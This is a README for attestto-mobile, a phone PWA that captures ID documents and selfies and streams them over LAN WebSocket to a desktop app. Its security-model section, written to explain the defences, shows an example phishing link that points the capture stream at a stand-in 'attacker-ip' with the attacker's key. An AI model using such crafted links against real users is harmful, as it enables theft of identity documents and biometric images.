

# attestto-mobile

> Camera companion PWA for attestto-desktop — your phone becomes the document and selfie capture device. Images travel over local WiFi via WebSocket. No server, no cloud, no PII transmitted outside your local network.

Attestto Mobile is a Progressive Web App deployed at [mobile.attestto.com](https://mobile.attestto.com). It solves a specific problem: desktop webcams are terrible for identity document capture. A phone camera is much better. This app turns your phone into a dedicated camera for the Attestto desktop app, all over your local network.

## Architecture


```mermaid
graph LR
    Desktop["attestto-desktop<br/>Electron app<br/>Local WebSocket server<br/>Shows QR code"]
    Mobile["attestto-mobile<br/>Vue 3 PWA<br/>Camera capture<br/>WebSocket client"]
    Network["Local Network<br/>WiFi<br/>WebSocket over TCP"]
    
    Desktop -->|QR code<br/>ws://192.168.1.X:PORT/ws/SESSION| Mobile
    Mobile -->|image: base64 JPEG<br/>ack, complete, error| Desktop
    Mobile -.->|uses| Network
```

**Flow:**
1. Desktop generates QR code with WebSocket URL
2. Phone scans QR → opens this PWA with the URL
3. PWA connects to desktop via WebSocket
4. User captures document front, back, selfie
5. Each image sent as base64 JPEG to desktop
6. Desktop acknowledges each step; PWA advances
7. Done → prompt to install PWA to home screen

## Quick start

### Prerequisites

- Node.js 18+
- pnpm
- HTTPS (required for `getUserMedia` — GitHub Pages provides this, or use `localhost:5173` in dev)

### Install

```bash
pnpm install
pnpm dev      # Starts on https://localhost:5173
```

### Try it

1. Open https://localhost:5173 (note: HTTPS required for camera access)
2. Click to open the QR reader
3. Scan a QR code (or paste a WebSocket URL to test)
4. Capture: phone → document front → document back → selfie

Build and deploy:

```bash
pnpm build    # Creates dist/ for GitHub Pages
```

Deployed automatically on push to `main` via `.github/workflows/deploy.yml`.

## Key concepts

### Capture flow

**Step 1 — Document front**
Card frame overlay. User aligns document within the frame. Tap to capture, or use auto-capture if supported.

**Step 2 — Document back**
Same card frame overlay.

**Step 3 — Selfie + passive liveness**
Face oval overlay. Blink detection (passive liveness check — no active user prompts).

If camera access is blocked, file input fallback is available at each step.

After all 3 steps: success screen with prompt to install PWA to home screen.

### WebSocket message protocol

All messages are JSON over WebSocket. The QR code URL format:

```
https://mobile.attestto.com/capture?ws=ws://192.168.1.X:PORT/ws/SESSION_ID
```

> **Security:** the `?ws=` parameter is transitional and guarded. The PWA rejects any destination that is not an internal LAN address (see [Security model](#security-model)), and the durable design derives the destination from the page origin rather than a URL parameter. Do not treat `?ws=` as a stable public API.

**Message types:**

```typescript
// Phone → Desktop
{
  type: 'image',
  step: 'front' | 'back' | 'selfie',
  data: '<base64 JPEG string>',  // URL-safe base64
}

// Desktop → Phone
{
  type: 'ack',
  step: 'front' | 'back' | 'selfie',
}

// Desktop → Phone (all steps complete)
{
  type: 'complete',
}

// Desktop → Phone (error, stop capture)
{
  type: 'error',
  message: 'description of error',
}
```

### Stack

- **Vue 3 + TypeScript** — Reactive, type-safe UI
- **Vite + vite-plugin-pwa** — Fast dev, installable PWA
- **Tailwind CSS** — Utility styling
- **WebSocket** — Real-time connection to desktop (`ws://`)
- **WebAPI `getUserMedia`** — Camera access
- **GitHub Pages** — HTTPS deployment (required for `getUserMedia`)

## Security model

This app handles government ID documents and a selfie. The threat we design against is **document exfiltration** — an attacker tricking a victim into streaming their cédula and selfie to the attacker instead of to their own desktop.

### The core attack

The capture page connects to a WebSocket destination to send frames. If that destination came from a URL parameter, an attacker could send a victim a link like:

```
https://<our-domain>/capture?ws=ws://attacker-ip/...&pk=<attacker-key>
```

The victim trusts the domain, grants the camera, and their ID document streams to the attacker.

**End-to-end encryption does not stop this.** Frames are sealed with `nacl.box` to the public key in `pk`. But the attacker supplies *their own* key — they are the intended recipient, not a third party in the middle. E2E only protects against eavesdroppers, not against a malicious endpoint. So E2E is necessary but not sufficient.

### The three-layer defense

1. **Origin-derived destination (never a URL parameter).**
   The phone must derive the socket target from the page's own origin (`location.host`), not from `?ws=`. Origin == destination only holds when the *same machine* serves the page and receives the frames — i.e. the desktop serves the capture page directly. This is why the transport is [magic-domain](#transport-magic-domain), not a CDN-hosted PWA pointing at a LAN IP. A crafted link then cannot redirect the data anywhere, because the only way to change the destination is to serve the whole page from that host — which shows in the address bar and cannot borrow the trust of our domain.
   *(The current interim page already has this property: the desktop bakes the `ws://` URL into the HTML it serves; the page never reads the destination from the URL.)*

2. **Internal-address-only destination.**
   The destination must be a private / internal LAN address (RFC1918 `10/8`, `172.16/12`, `192.168/16`, loopback, link-local). Enforced in [`src/lib/captureSecurity.ts`](./src/lib/captureSecurity.ts) and unit-tested. Private IPs do not route across the internet, so this **also gives same-network co-presence for free**: a remote attacker's link simply fails to connect from the victim's phone. Requiring "internal" and observing "it connected" together prove the phone and desktop are on the same LAN — no need to read the phone's own subnet (browsers hide it via mDNS anyway).

3. **Human-compared pairing code + station signature.**
   The residual gap in layer 2 is **VPN**: if a victim is lured into VPN'ing into an attacker-controlled network, a private IP can route to a remote box. Commercial VPNs cannot do this; a hostile corporate/attacker VPN could. To close it, the desktop shows a short pairing code, the connecting endpoint echoes it to the phone, and the user confirms it matches the desktop in front of them. Only the real desktop knows the code; it is never carried in the QR/URL. A station-key signature over `{sessionId, host, expiry}` adds tamper-evidence and identity binding as defense-in-depth. *(Layer 3 is on the roadmap; layers 1–2 ship first.)*

Same-network is a **co-presence heuristic, not identity**. Real identity assurance comes from liveness (blink detection) + face-match + document authenticity checks, all performed on the desktop.

### <a name="transport-magic-domain"></a>Transport: magic-domain (planned)

`getUserMedia` requires a secure context (HTTPS), but a LAN-IP host can only hold a self-signed cert, which mobile Safari rejects for the `wss://` upgrade. A self-signed HTTPS capture server is therefore a dead end on iOS.

The durable fix is the "magic-domain" pattern (as used by Plex's `*.plex.direct`): a real wildcard cert for `*.lan.attestto.com`, with DNS names like `192-168-1-79.scan.lan.attestto.com` resolving to the LAN IP. The desktop then serves real HTTPS on the LAN, the phone connects `wss://` directly (no relay), the page is origin-derived (layer 1), and the encoded IP is validated as internal (layer 2). The **interim** transport ships the desktop capture page over plain HTTP on the LAN with a native-camera fallback — trusted-LAN only.

### Privacy

- Images are captured locally on your phone and travel directly to your own desktop over your local WiFi.
- No intermediate server, no cloud storage, no PII leaves your local network.
- All processing (OCR, liveness detection, credential storage) happens on your desktop.
- In-page document auto-detect (jscanify/OpenCV) runs entirely in the browser; nothing is uploaded for detection.

## Ecosystem

| Repo | Role | Relationship |
|------|------|--------------|
| [`attestto-desktop`](../attestto-desktop) | Electron station | Receives images from this PWA, runs OCR and liveness checks |
| [`attestto-app`](../attestto-app) | Citizen wallet | Where users manage credentials captured via this PWA |

## Build with an LLM

This repo ships a [`llms.txt`](./llms.txt) context file — a machine-readable summary of the API, data structures, and integration patterns designed to be read by AI coding assistants.

### Recommended setup

Use the [`attestto-dev-mcp`](../attestto-dev-mcp) server to give your LLM active access to the ecosystem:

```bash
cd ../attestto-dev-mcp
npm install && npm run build
```

Then add it to your Claude / Cursor / Windsurf config and ask:

> *"Explore the Attestto ecosystem and help me extend [this component]"*

### Which model?

We recommend **[Claude](https://claude.ai) Pro** (5× usage vs free) or higher. Long context and Vue 3 / WebSocket expertise handle this codebase well. The MCP server works with any LLM that supports tool use.

> **Quick start:** Ask your LLM to read `llms.txt` in this repo, then describe what you want to build. It will find the right archetype, generate boilerplate, and walk you through the first run.

## Contributing

```bash
pnpm install    # Install dependencies
pnpm dev        # Start dev server with HTTPS
pnpm build      # Build for deployment
pnpm lint       # ESLint + Prettier
pnpm test       # vitest
```

Contributions welcome. All code Apache 2.0.

## License

[Apache 2.0](./LICENSE) — Use it, fork it, deploy it.

Built by [Attestto](https://attestto.com) as Public Digital Infrastructure for Costa Rica and beyond.
